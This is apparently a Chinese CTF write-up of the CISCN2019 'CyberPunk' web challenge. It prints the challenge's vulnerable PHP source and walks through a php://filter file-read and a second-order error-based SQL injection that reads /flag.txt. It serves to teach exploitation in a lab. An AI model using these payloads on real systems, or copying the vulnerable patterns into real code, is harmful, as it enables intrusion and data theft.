 ```yaml
---
title: '[CISCN2019 华北赛区 Day1 Web5]CyberPunk'
date: 2024-06-08 17:09:21
tags: sql注入
categories: 刷题笔记
---
```


### [CISCN2019 华北赛区 Day1 Web5]CyberPunk（二次注入）

打开源码，发现关键信息

![image-20240604144920526](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406041449655.png)

我们可以使用filter伪协议读取index.php的内容

<!-- more -->

```
?file=php://filter/convert.base64-encode/resource=index.php
```

![image-20240604145000214](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406041450247.png)

得到base64编码

我们进行解码，得到index.php的代码

**index.php**

```
<?php

ini_set('open_basedir', '/var/www/html/');

// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
```

同理可得search.php，delete.php，change.php

**search.php**

```
<?php

require_once "config.php"; 

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>姓名:".$row['user_name']."</p><p>, 电话:".$row['phone']."</p><p>, 地址:".$row['address']."</p>";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

**delete.php**

```
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $result = $db->query('delete from `user` where `user_id`=' . $row["user_id"]);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单删除成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

**change.php**

```
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单修改成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

这几个文件源码都使用了关键词过滤，基本没有注入方法。然后

change.php中，只对`phone`和`user_name`进行了过滤，而对`address`只是使用`addslashes()`函数，可以使用报错注入。

**addslashes用法**

```
addslashes(string $string): string
```

返回需要在转义字符之前添加反斜线的字符串。这些字符是：

- 单引号（`'`）
- 双引号（`"`）
- 反斜线（`\`）
- NUL（NUL 字节）

注意change.php的sql语句

```
$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#
```

首先我们提交订单，将地址改为注入语句

![image-20240604151106989](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406041511967.png)

我们再修改收货地址

![image-20240604151154256](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406041511569.png)

点击修改订单，得到部分flag，剩下的修改注入语句中的截取范围就能得到

![image-20240604151220635](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406041512665.png)

```
flag{9dc62f0c-6733-487f-99cf-ee2e42c5ce6b}
```
